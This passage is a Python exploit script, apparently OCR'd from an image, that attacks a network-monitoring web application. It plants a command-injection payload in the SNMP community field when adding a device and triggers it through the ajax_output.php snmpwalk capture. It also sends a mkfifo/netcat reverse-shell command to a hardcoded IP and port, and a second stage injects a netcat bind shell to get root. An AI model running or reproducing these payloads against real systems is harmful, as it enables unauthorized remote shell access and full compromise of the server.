 ```python
    headers = {
        "User-Agent":"Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
        "Content-Type":"application/x-www-form-urlencoded"
    }
    hostname = ''.join(random.choice('abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789') for _ in range(7))
    data_post = {
        "hostname": hostname,
        "snmp": "on",
        "sysName": "",
        "hardware": "",
        "os": "",
        "snmpver": "v2c",
        "os_id": "",
        "port": "",
        "transport": "udp",
        "port_assoc_mode": "ifIndex",
        "community": cmd,
        "authlevel": "noAuthNoPriv",
        "authname": "",
        "authpass": "",
        "cryptopass": "",
        "authalgo": "MD5",
        "cryptoalgo": "AES",
        "force_add": "on",
        "Submit": ""
    }
    url_addhost = url+"/addhost/"
    data_urlencode = urlencode(data_post)
    try:
        response_addhost = session.post(url_addhost,data_urlencode,headers=headers,timeout=5).text
        if "Device added" in response_addhost:
            print("[+]Add device successful")
            data_exploit = {
                "id":"capture",
                "format":"text",
                "type":"snmpwalk",
                "hostname":hostname
                        }
            url_exploit = session.get(url=url+"/ajax_output.php",params=data_exploit,headers=headers,timeout=5)
            pass
        else:
            print("[-] Add device error")
    except:
        pass
    ########################################################################################################
    command_two="rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc %s %s >/tmp/f\n"%(lhost,lport)
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("192.168.56.14", 4442))  # Cambia la dirección y el puerto según tus necesidades
    s.send(command_two.encode())
def user_root(url,lport,lhost,session):
    print("[+] Starting attack on root")
    cmd= "'$(nc -lvnp 4441 -e /bin/bash &) #"
    headers = {
        "User-Agent":"Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
        "Content-Type":"application/x-www-form-urlencoded"
    }
    hostname = ''.join(random.choice('abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789') for _ in range(7))
    data_post = {
        "hostname": hostname,
```